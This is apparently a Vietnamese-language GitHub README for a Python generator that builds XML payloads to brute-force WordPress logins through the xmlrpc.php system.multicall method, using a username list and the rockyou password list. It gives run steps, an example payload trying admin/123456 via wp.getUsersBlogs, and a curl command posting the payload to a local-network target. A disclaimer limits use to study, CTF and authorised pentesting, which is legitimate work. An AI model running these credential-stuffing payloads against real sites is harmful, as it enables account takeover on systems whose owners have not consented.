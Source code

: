 # XML-RPC Bruteforce Payload Generator

## 📌 Giới thiệu
Script Python này giúp **tự động tạo file payload XML** để brute-force endpoint `xmlrpc.php` (WordPress) bằng phương thức `system.multicall`.  
Người dùng chỉ cần cung cấp **file user.txt** (danh sách username) và **file rockyou.txt** (danh sách password).

---

## 🚀 Tính năng
- ✅ Tạo payload XML cho brute-force XML-RPC.
- ✅ Hỗ trợ `system.multicall` để gửi nhiều credential trong 1 request.
- ✅ Cho phép giới hạn số password thử trên mỗi user.

---

## 📂 Cấu trúc
```
.
├── generator.py      # Script chính
├── user.txt          # Danh sách username
├── rockyou.txt       # Danh sách password
└── payload.xml       # File payload XML sau khi generate
```

---

## 🔧 Cách sử dụng
### 1️⃣ Chạy script
```bash
python generator.py
```
<img width="412" height="113" alt="image" src="https://github.com/user-attachments/assets/0fa90754-adf0-444a-924c-a1f305374cb5" />

### 2️⃣ Nhập thông tin:
- Đường dẫn đến file `user.txt`
- Đường dẫn đến file `rockyou.txt`
- Tên file output (mặc định: payload.xml)
- Số mật khẩu tối đa mỗi user (mặc định: 5)

---

## ⚡ Ví dụ chạy:
```bash
Nhập đường dẫn file user.txt: users.txt
Nhập đường dẫn file rockyou.txt: passwords.txt
Nhập tên file output (mặc định payload.xml): payload.xml
Số mật khẩu tối đa mỗi user (mặc định 5): 5
[+] Payload đã được tạo và lưu vào payload.xml
```

---

## 📌 Ví dụ payload (trích)
```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>system.multicall</methodName>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <struct>
                <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
                <member><name>params</name><value><array><data>
                  <value><string>admin</string></value>
                  <value><string>123456</string></value>
                </data></array></value></member>
              </struct>
            </value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodCall>
```
Sử dụng để test 
```
┌──(huyqa㉿kali)-[~] └─$ curl -d @payload.xml http://192.168.233.144/xmlrpc.php
```
<img width="795" height="668" alt="image" src="https://github.com/user-attachments/assets/be7ea991-dd9b-4632-89ba-ca45b1f48a57" />

---

## ⚠️ Lưu ý
⚠️ Tool chỉ phục vụ **mục đích học tập, CTF, pentest hợp pháp**.  
⚠️ **Không sử dụng để tấn công hệ thống khi chưa có sự cho phép.**

---

## 📜 License
MIT License
